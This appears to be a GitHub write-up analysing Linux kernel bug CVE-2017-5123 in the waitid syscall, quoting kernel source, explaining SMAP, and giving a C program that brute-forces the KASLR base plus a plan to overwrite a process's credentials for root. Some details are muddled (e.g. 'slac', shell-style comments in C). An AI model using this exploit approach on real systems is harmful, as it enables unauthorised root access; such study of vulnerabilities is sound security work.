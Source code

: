 # CVE-2017-5123

**CVE-2017-5123** is a vulnerability in the waitid syscall implementation which allows writes (limited writes only 0 can be written anywhere in memory) to memory address specified by user without checking if they are kernel addresses or userland addresses.


## Understanding the Vulnerability.

File : `kernel/exit.c`

```C
SYSCALL_DEFINE5(waitid, int, which, pid_t, upid, struct siginfo __user *,
		infop, int, options, struct rusage __user *, ru)
{
	struct rusage r;
	struct waitid_info info = {.status = 0};
	long err = kernel_waitid(which, upid, &info, options, ru ? &r : NULL);
	int signo = 0;

	if (err > 0) {
		signo = SIGCHLD;
		err = 0;
		if (ru && copy_to_user(ru, &r, sizeof(struct rusage)))
			return -EFAULT;
	}
	if (!infop)
		return err;

	user_access_begin();
	unsafe_put_user(signo, &infop->si_signo, Efault);             /*  All the unsafe_put_user() calls should tingle your spidy senses  */ 
	unsafe_put_user(0, &infop->si_errno, Efault);                            
	unsafe_put_user(info.cause, &infop->si_code, Efault);         
	unsafe_put_user(info.pid, &infop->si_pid, Efault);             
	unsafe_put_user(info.uid, &infop->si_uid, Efault);              
	unsafe_put_user(info.status, &infop->si_status, Efault);
	user_access_end();
	return err;                                                         
Efault:
	user_access_end();
	return -EFAULT;
}
```

lets look at the unsafe_put_user() function  

File: `include/linux/uaccess.h`

```C

/*
 * The "unsafe" user accesses aren't really "unsafe", but the naming
 * is a big fat warning: you have to not only do the access_ok()
 * checking before using them, but you have to surround them with the
 * user_access_begin/end() pair.
 */
#define user_access_begin()	__uaccess_begin()
#define user_access_end()	__uaccess_end()

#define unsafe_put_user(x, ptr, err_label)					\
do {										\
	int __pu_err;								\
	__typeof__(*(ptr)) __pu_val = (x);					\
	__put_user_size(__pu_val, (ptr), sizeof(*(ptr)), __pu_err, -EFAULT);	\
	if (unlikely(__pu_err)) goto err_label;					\
} while (0)

#define unsafe_get_user(x, ptr, err_label)					\
do {										\
	int __gu_err;								\
	__inttype(*(ptr)) __gu_val;						\
	__get_user_size(__gu_val, (ptr), sizeof(*(ptr)), __gu_err, -EFAULT);	\
	(x) = (__force __typeof__(*(ptr)))__gu_val;				\
	if (unlikely(__gu_err)) goto err_label;					\
} while (0)

#endif /* _ASM_X86_UACCESS_H */ss
```
unsafe_put_user() macro will just write a value to the pointer specified by ptr


Oh look! Somebody wrote a comment it says that we need to surround unsafe_put_user() with user_access_begin/end() pair and also perform access_ok() lets take a look at these functions .

```C
#define __uaccess_begin() stac()
#define __uaccess_end()   clac()
```
the __uaccess_begin() and __uaccess_end() are just wrapper macros for stac and clac assembly instructions

**stac** : Sets the AC flag bit in EFLAGS register. This may enable alignment checking of user-mode data accesses. This allows explicit supervisor-mode data accesses to user-mode pages even if the SMAP bit is set in the CR4 register.

[more about stac instruction ](https://www.felixcloutier.com/x86/stac)

**clac** : Clears the AC flag bit in EFLAGS register. This disables any alignment checking of user-mode data accesses. If the SMAP bit is set in the CR4 register, this disallows explicit supervisor-mode data accesses to user-mode pages.

[more about clac instruction ](https://www.felixcloutier.com/x86/clac)

__uaccess_begin() and __uaccess_end() basically disable and enable SMAP for userland access respectively.


```C
/**
 * access_ok: - Checks if a user space pointer is valid
 .
 .
 .
 **/
    #define access_ok(type, addr, size)					\
({									\
	WARN_ON_IN_IRQ();						\
	likely(!__range_not_ok(addr, size, user_addr_max()));		\
})

```
the access_ok() macro just checks if a pointer is a valid userland pointer and EFAULTs if otherwise.

## SMAP

Previously we talked about the stac and clac instruction which can disable and enable SMAP...     

so what is SMAP?
***SMAP*** stands for Supervisor Mode Access Protection it marks userland pages as non-readable.

so in order to write to userland pages we need to disable SMAP . the *slac()* and *clac()* functions do exactly that.

slac() - disables SMAP          
clac() - enables SMAP


## Exploit Strategy - 1

This bug is a very simple bug but exploitation for this bug is not that trivial according to my understanding there aren't any obvious paths for exploitation after looking at [this](https://salls.github.io/Linux-Kernel-CVE-2017-5123/) article by salls. i looked at a couple of strageties and i decided to go with a different approach similar to the one described in [this](https://reverse.put.as/2017/11/07/exploiting-cve-2017-5123/) article here.

In this exploit strategy we try to find the kernel address by bruteforcing available memory addresses by writing 0x0 to random addresses and checking if we return a `EFAULT` because when we write to a invalid pointer we return a `EFAULT` but the kernel doesn't panic.... we can use this to find the base of the kernel like so:

```C
# exp.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/wait.h>

int main(){

pid_t pid;
unsigned long i ;
for(i = (char *)0xffff880000000000; ; i+=0x10000000) {
    pid = fork();
    if (pid > 0) 
    {
        if(syscall(247, P_PID, pid, (siginfo_t *)i, WEXITED, NULL) >= 0)  # 247 is the waitid syscall number . 
        {
            printf("Base found at :0x%p\n", i);

        }    
    }
}

return 0;
}
```

After Bruteforcing KASLR we can try and create a lot of processes and try to overwrite the cred->uid of that process to `0` which will give us root privileges .....


***An Important thing to note here is that we need to pin our program to 1 CPU so that all the threads are in the same cpu-cache...***



